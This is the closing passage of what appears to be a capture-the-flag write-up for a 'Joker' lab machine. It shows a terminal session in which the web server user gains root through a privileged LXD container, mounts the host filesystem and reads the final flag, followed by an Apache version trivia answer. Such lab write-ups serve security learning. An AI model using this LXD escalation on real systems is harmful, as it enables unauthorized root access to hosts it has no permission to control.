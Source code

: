 1. We can put the image on our victim and exploit the LXD path. We get the final file by reading the root directory.

```bash
www-data@ubuntu:/mnt$ cd -                     
/tmp
www-data@ubuntu:/tmp$ lxc exec ignite /bin/sh  
~ # whoami
root
~ # bash
/bin/sh: bash: not found
~ # /bin/bash
/bin/sh: /bin/bash: not found
~ # ls
~ # cd mnt/root/root
/bin/sh: cd: can't cd to mnt/root/root: No such file or directory
~ # cd /mnt/root/
/mnt/root # ls
bin             initrd.img      media           run             tmp
boot            initrd.img.old  mnt             sbin            usr
dev             lib             opt             srv             var
etc             lib64           proc            swapfile        vmlinuz
home            lost+found      root            sys             vmlinuz.old
/mnt/root # cd root
/mnt/root/root # ls
final.txt
/mnt/root/root # cat final.txt 

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
```

2. I leave you with a thought - Do you want to know how I got these scars?....

## BROWNIE POINTS

1. What version of Apache is it? - **2.4.29**
